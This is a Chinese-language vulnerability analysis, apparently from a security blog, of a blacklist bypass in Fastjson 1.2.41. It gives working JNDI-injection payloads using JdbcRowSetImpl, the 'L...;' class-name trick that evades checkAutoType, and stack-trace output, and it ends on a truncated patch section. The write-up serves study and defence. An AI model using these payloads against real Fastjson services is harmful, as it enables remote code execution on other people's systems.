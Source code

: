 


# 版本1.2.41

## 绕过原因

这里使用的还是`com.sun.rowset.JdbcRowSetImpl` 的利用链，先尝试运行之前的PoC

```java
"{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":false}"

```

```java
// 命中黑名单
Exception in thread "main" com.alibaba.fastjson.JSONException: autoType is not support. com.sun.rowset.JdbcRowSetImpl
	at com.alibaba.fastjson.parser.ParserConfig.checkAutoType(ParserConfig.java:907)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:308)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1335)
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1301)
	at com.alibaba.fastjson.JSON.parse(JSON.java:152)
	at com.alibaba.fastjson.JSON.parse(JSON.java:162)
	at com.alibaba.fastjson.JSON.parse(JSON.java:131)
	at cc.blbana.vul.fastjson.FJPoC.main(FJPoC.java from InputFileObject:12)
```

修改PoC内容，成功触发，执行命令，关键部分为：**Lcom.sun.rowset.JdbcRowSetImpl;**

```java
"{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\", \"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":false}"
```

![Fastjson%20Bypass/Untitled.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/0.png)

## 详情分析

直接跟进到checkAutoType()方法中，黑名单中使用`classname.startsWith(deny)`判断是否为恶意类，可以看到加了`L`后绕过了检测。

问题来了：加了 **L和; **的类是否能成功获取到Class对象，继续跟进一下

![Fastjson%20Bypass/Untitled%201.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/1.png)

在黑白名单都未找到对应Class对象时，会进入到`TypeUtils.loadClass` 方法中，自动去掉前后两个符号并返回去Class对象

![Fastjson%20Bypass/Untitled%202.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/2.png)

## 补丁

到了1.2.42，对以上这种绕过方式进行了修复，具体commit如下：
